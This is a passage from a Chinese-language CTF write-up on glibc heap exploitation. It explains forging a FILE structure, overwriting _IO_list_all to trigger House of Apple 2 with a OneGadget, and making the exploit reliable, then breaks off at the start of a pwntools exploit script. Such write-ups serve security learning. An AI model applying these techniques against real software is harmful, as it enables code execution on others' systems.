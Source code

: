### 第六步

伪造file结构体， *Ml* 把结构体写到堆上，然后 *FlMs* 把堆地址写到`_IO_list_all`上，
最后退出程序就会在退出时触发House of Apple

需要注意的是，小堆块分配到`_IO_list_all`上后就不能再释放，因为过不了检测了；
此外在 *Fl* 时，伪造的结构体的`_flags`会被覆写为`heap >> 12`，并且还无法调位置——
整个结构体长0xe8，而我们只能写0xf0个字节；由于`_flags`不可能是`  sh;`，
所以我们必须使用OneGadget

这个exp的成功概率只有1/8，因为House of Apple 2对`_flags`有要求，
`_flags & (_IO_NO_WRITES | _IO_UNBUFFERED | _IO_CURRENTLY_PUTTING) == 0`，
`_flags`在开启了aslr后是随机的，因此这些位都有可能是1

> 看了一血的解答发现exp是可以百分百成功的，只需要在第一次小堆块溢出写时，
> 把大堆块的`prev_size`写作`  sh;`，然后将伪造的FILE往前调0x10，
> 就可以绕过释放时`fd`的限制，具体如图所示
> 
> ![optimized](./assets/optimized.png)

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        if lo & 4:
            EXE = './orig'
            libc = ELF('/usr/lib/libc.so.6')
            arena = 0x1daac0
        else:
            EXE = './minho'
            libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.1_amd64/libc.so.6')
            arena = 0x219c80
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
```